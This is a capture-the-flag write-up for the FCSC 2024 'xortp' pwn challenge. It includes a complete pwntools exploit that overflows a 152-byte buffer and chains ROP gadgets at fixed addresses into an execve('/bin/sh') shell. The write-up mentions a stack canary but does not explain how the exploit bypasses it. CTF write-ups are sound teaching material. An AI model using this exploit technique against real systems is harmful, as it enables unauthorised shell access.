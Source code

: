 ```yaml
---
title: "FCSC 2024 - Challenge Xortp"
date: 2024-04-27
tags: ["Pwn"]
categories: ["Pwn"]
ctfs: ["fcsc"]
---
```

# Writeup: xortp

## Challenge Overview

This challenge involves exploiting a buffer overflow vulnerability in the "xortp" binary to gain a shell and read the flag. The exploit leverages Return-Oriented Programming (ROP) to bypass modern security protections.

## Binary Analysis

The binary has the following protections:
- Architecture: amd64-64-little
- RELRO: Partial RELRO
- Stack: Canary found
- NX: NX enabled (No execution on stack)
- PIE: No PIE (fixed base address at 0x400000)
- Not stripped

The key vulnerability appears to be a buffer overflow that allows overwriting the return address despite stack canaries being enabled.

## Vulnerability and Exploitation

The vulnerability is a classic buffer overflow where we can overwrite the return address. Since NX is enabled, we cannot directly execute shellcode on the stack. Instead, we use ROP to chain together existing code fragments (gadgets) to execute a system call.

### Exploitation Strategy

1. Overflow the buffer to control the instruction pointer  
2. Build a ROP chain to execute `execve("/bin/sh", 0, 0)` syscall  
3. Get a shell and read the flag  

---

### 🔧 Syscall Calling Convention Reference

| Architecture      | Syscall Number Reg | Argument 1 | Argument 2 | Argument 3 | Argument 4 | Argument 5 | Argument 6 | Return Value | Instruction |
|------------------|--------------------|------------|------------|------------|------------|------------|------------|---------------|-------------|
| **x86 (32-bit)** | `eax`              | `ebx`      | `ecx`      | `edx`      | `esi`      | `edi`      | `ebp`      | `eax`         | `int 0x80`  |
| **x86_64**       | `rax`              | `rdi`      | `rsi`      | `rdx`      | `r10`      | `r8`       | `r9`       | `rax`         | `syscall`   |
| **ARM (32-bit)** | `r7`               | `r0`       | `r1`       | `r2`       | `r3`       | `r4`       | `r5`       | `r0`          | `svc 0`     |
| **ARM64**        | `x8`               | `x0`       | `x1`       | `x2`       | `x3`       | `x4`       | `x5`       | `x0`          | `svc 0`     |

This table is especially useful in ROP-based attacks where we construct a syscall manually by populating the appropriate registers using gadgets.

---

### ROP Chain Details

Our goal is to execute the `execve` syscall (syscall number 59) with the following arguments:
- `rdi` = pointer to "/bin/sh" string (first argument)
- `rsi` = 0 (second argument - argv, set to NULL)
- `rdx` = 0 (third argument - envp, set to NULL)
- `rax` = 59 (syscall number for execve)

We use the following ROP gadgets:
```
pop_rdi = 0x0000000000401f60       # Control first argument
pop_rsi = 0x000000000040f972       # Control second argument
pop_rax_rdx_rbx = 0x00000000004867a6  # Control syscall number and third argument
syscall_gadget = 0x00000000004011a2  # Execute the syscall
```

The string "/bin/sh" was found at address 0x00498213 in the binary.

### Buffer Size

The required padding before reaching the return address is 152 bytes.

## Exploit Implementation

The exploit script uses pwntools to construct and send the payload:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('xortp')

# ROP gadgets
pop_rax = 0x00000000004424f7   
pop_rsi = 0x000000000040f972   
pop_rdi = 0x0000000000401f60   
pop_rax_rdx_rbx = 0x00000000004867a6  
syscall_gadget = 0x00000000004011a2  

addr_bin_sh = 0x00498213          

# Connect to the process
io = process('./xortp')  # or remote("host", port)

# Syscall parameters for execve("/bin/sh", 0, 0)
path = addr_bin_sh    # First argument: path to binary
argv = 0              # Second argument: argument array (NULL)
envp = 0              # Third argument: environment variables (NULL)
syscall_num = 59      # Syscall number for execve

BUFFER = 152  # Size of buffer before return address

# Construct the payload
payload = flat(
    b'A'*BUFFER,      # Padding to reach return address
    p64(pop_rdi),     # Pop path into RDI (first argument)
    p64(path),        # Address of "/bin/sh" string
    p64(pop_rsi),     # Pop 0 into RSI (second argument)
    p64(argv),        # NULL for argv
    p64(pop_rax_rdx_rbx),  # Pop syscall number into RAX and third argument into RDX
    p64(syscall_num), # Syscall number for execve (59)
    p64(envp),        # NULL for envp (third argument)
    p64(0),           # Dummy value for RBX
    p64(syscall_gadget)  # Execute the syscall
)

# Send the payload
io.sendline(payload)
io.sendline("id && cat flag.txt")  # Run commands in the obtained shell
io.interactive()
```

## Execution Flow

1. We send a payload that fills the buffer with 152 'A's to reach the return address  
2. The ROP chain is executed:  
   - `pop_rdi` gadget pops the address of "/bin/sh" into RDI  
   - `pop_rsi` gadget pops 0 into RSI  
   - `pop_rax_rdx_rbx` gadget pops 59 into RAX (syscall number), 0 into RDX, and a dummy value into RBX  
   - `syscall_gadget` executes the syscall, which runs execve("/bin/sh", 0, 0)  
3. We now have a shell and can read the flag with `cat flag.txt`  

## Flag

After gaining the shell, we can read the flag with `cat flag.txt` command.

## Conclusion

This challenge demonstrates a classic ROP-based exploitation technique to bypass NX protection. By chaining together existing code gadgets, we can execute arbitrary system calls without injecting executable code onto the stack.